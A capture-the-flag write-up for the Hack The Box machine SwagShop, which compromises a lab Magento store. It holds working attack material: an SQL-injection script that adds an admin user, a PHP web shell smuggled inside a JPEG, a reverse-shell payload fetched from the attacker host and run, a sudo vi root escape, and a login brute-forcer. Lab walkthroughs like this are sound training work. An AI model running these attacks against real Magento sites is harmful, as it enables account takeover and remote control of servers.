



# [SwagShop](https://app.hackthebox.eu/machines/188)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.140 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS -p $tcpports -oA tcp --open -Pn --script "default,safe,vuln" -sV 10.10.10.140 &
# TCP quick scan
sudo nmap -v -sS -sC -F --open -Pn -sV 10.10.10.140
# UDP quick scan
sudo nmap -v -sU -F --open -Pn -sV --version-intensity 0 10.10.10.140
```

The TCP quick scan returns the following:


Start with a scan of the website:

```bash
nikto -h http://10.10.10.140/ -C all --maxtime=120s --output=nikto.txt
```


Then browse to the site manually:

```bash
firefox http://10.10.10.140/
```


Website looks like a template from the `2014 Magento Demo Store` copyright footer at the bottom of the page. Start a directroy scanner looking for `php` pages since the HTML source of the webpage shows links to PHP files on the target server:

```bash
ulimit -n 8192 # prevent file access error during gobuster scanning
gobuster dir -t 50 -r -q -z -o gobuster.txt -x php \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -a 'Mozilla/5.0' \
  -u http://10.10.10.140/ &
```

Next look for any exploits with the target template:

```
searchsploit magento
```



Looking through these exploits shows some promising ones:

- https://www.exploit-db.com/exploits/39838
  - This exploit sends a request to `/rest/V1/guest-carts/` in order to inject a PHP `system()` command using valid cart ID. Trying that basic URL on the target as a test returns a 404? Maybe this one is not applicable...
- https://www.exploit-db.com/exploits/37811
  - This exploit requires a registration account on the target site and triggers a PHP command injection using `system()`. The following are exploit write-ups:
    - https://websec.wordpress.com/2014/12/08/magento-1-9-0-1-poi/
    - https://ebrietas0.blogspot.com/2015/08/magento-bug-bounty-1-2-csrf-to-code.html
  - After messing around with this exploit for a bit, it did not seem to work on the target...
- https://www.exploit-db.com/exploits/19793
  - This exploit sends a request to `/index.php/api/xmlrpc` with XML to trigger an LFI. Trying this in BurpSuite returns the following error (it does not look like this one is applicable either):


- https://www.exploit-db.com/exploits/37977
  - This exploit adds a new admin user by sending a request to `/admin/Cms_Wysiwyg/directive/index/`. Trying that URL on the target also returns a 404...

None of the exploits work without modificiation... After playing around with each exploit for a bit, a hint for the missing piece of one of the exploits can be found. A Google for `magento admin portal default url` brings up the following:

- https://magento.stackexchange.com/questions/118392/what-is-my-magento-admin-dashboard-login-url

This post lists the following URLs:

```
http://localhost:8888/Magento/admin
http://localhost:8888/Magento/index.php/admin
http://localhost:8888/Magento/administrator
http://localhost:8888/Magento/index.php/administrator
```

Trying `http://10.10.10.140/index.php/admin` provides a valid login page:


This makes exploit 37977 look more promising because a request to `10.10.10.140/index.php/admin/Cms_Wysiwyg/directive/index/` does not return a 404 error. Modify the exploit payload & clean it up a bit so that it adds the account `bubba/gump` on the target:

```python
import requests
import base64
import sys

username = "bubba"
password = "gump"
target = "http://10.10.10.140/index.php/admin/Cms_Wysiwyg/directive/index/"

q = """
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""

query = q.replace("\n", "").format(username=username, password=password)
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)
r = requests.post(target,
                  data={
                    "___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                    "filter": base64.b64encode(pfilter),
                    "forwarded": 1}
                 )
if r.ok:
  print "WORKED"
else:
  print "DID NOT WORK"
```

Run the above script as follows:

```bash
python2.7 exploit.py
```

Then login to see the following admin panel:


Looking around this admin panel does not show too much... Some Googling for `magento admin portal upload php` brings up the following link:

- https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper

This walkthrough shows a way to get code execution on the target through uploading a PHP file as a JPEG and then creating a template that includes it as PHP after disabling a security measure in the admin panel. Go through the following steps to upload a shell:

- Login and browse to System > Configuration. Then under Advanced > Developer > Template Settings, set Allow Symlinks to Yes:


- Then browse to Catalog > Manage Products and select Edit for one of the active products. Then select Images in the left panel to upload a new image file for this product. Next stage the JPEG file that will be uploaded:

```bash
# install an image manupulation libaray
sudo apt-get install imagemagick
# create an empty image
convert -size 32x32 xc:white bubba.jpg
# create the PHP shell dropper into a directory where files are uploaded
echo "<?php file_put_contents('/var/www/html/media/tmp/bubba.php','<?php echo shell_exec(\$_REQUEST[\"c\"]); ?>');echo 'shell dropped';?>" > bubba.php
# append the PHP code to the valid image
cat bubba.jpg bubba.php > bubbagump.jpg
```

- **NOTE:** If Adobe Flash is not installed:

```bash
# download from here: 
# - https://get.adobe.com/flashplayer/download/?installer=FP_32.0_for_Linux_64-bit_(.tar.gz)_-_NPAPI&stype=7772&standalone=1
tar -xvf flash_player_npapi_linux.x86_64.tar.gz
sudo cp libflashplayer.so /usr/lib/mozilla/plugins
sudo cp -r usr/ /usr/
# now restart firefox
```

- Then upload `bubbagump.jpg` to the target. After uploading, right click on the image and select the URL. It should be the following:
  - **NOTE:** This is the URL that was used to figure out where to place the PHP shell in previous steps

```
http://10.10.10.140/media/tmp/catalog/product/b/u/bubbagump.jpg
```

- Now, select Newsletter > Newsletter Templates > Add New Template. Then add the following as the template content:

```
{{block type="core/template" template="../../../../../../media/tmp/catalog/product/b/u/bubbagump.jpg"}}
```

- Then select Save Template and then Preview Template to get the following:


- Now browse to `http://10.10.10.140/media/tmp/` to see the following:


Now test the web shell with the following:

```bash
curl -s --data-urlencode 'c=id' http://10.10.10.140/media/tmp/bubba.php
```



Nice! That is code execution. Use it to get a dedicated shell:

```bash
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         -f elf \
         -o bubba.elf
nc -nvlp 6969
sudo python3 -m http.server 80
curl -s http://10.10.10.140/media/tmp/bubba.php --data-urlencode 'c=wget -O /dev/shm/bubba.elf 10.10.14.25/bubba.elf && chmod +x /dev/shm/bubba.elf && /dev/shm/bubba.elf'
```

And this returns a shell with `user.txt`:


After getting access, there is an interesting sudo permission:


This is a known path to `root`:

- https://gtfobins.github.io/gtfobins/vi/

Run the following to get a shell as `root`:

```bash
sudo /usr/bin/vi /var/www/html/get.php -c ':!/bin/sh'
```



---

Something extra is the following Python script that will try to bruteforce a login for the Magento Admin login. This was ran in the background assuming the username `admin` while looking through the other exploits...

```python
import re
import sys
import requests
import multiprocessing
import multiprocessing.dummy

USERNAME = 'admin'
TARGET = 'http://10.10.10.140/index.php/admin'
WORDLIST = 'rockyou.txt'

def thread(password):
  password = password.strip()
  s = requests.session()
  r = s.get(TARGET)
  # r = s.get(TARGET, proxies={'http': 'http://127.0.0.1:8080/'})
  form_key = re.findall(r'<input name="form_key" type="hidden" value="(.*)" />', r.text)
  if not form_key:
    return
  print(f'[*][{form_key[0]}] trying {password} ...')
  data = {
    'form_key': form_key[0],
    'login[username]': USERNAME,
    'dummy': '',
    'login[password]': password
  }
  r = s.post(TARGET, data=data)
  # r = s.post(TARGET, data=data, proxies={'http': 'http://127.0.0.1:8080/'})
  if 'Invalid User Name or Password' not in r.text:
    print(f'[+] FOUND {USERNAME}/{password}')
    sys.exit(0)

if __name__ == '__main__':
  passwords = []
  with open(WORDLIST, 'r', encoding='latin-1') as f:
    passwords.extend(f.readlines())
  #random.shuffle(passwords)
  print(f'[*] loaded {len(passwords)} passwords ...')
  threads = multiprocessing.dummy.Pool(multiprocessing.cpu_count() * 4) 
  threads.map(thread, passwords)
  threads.join()
```

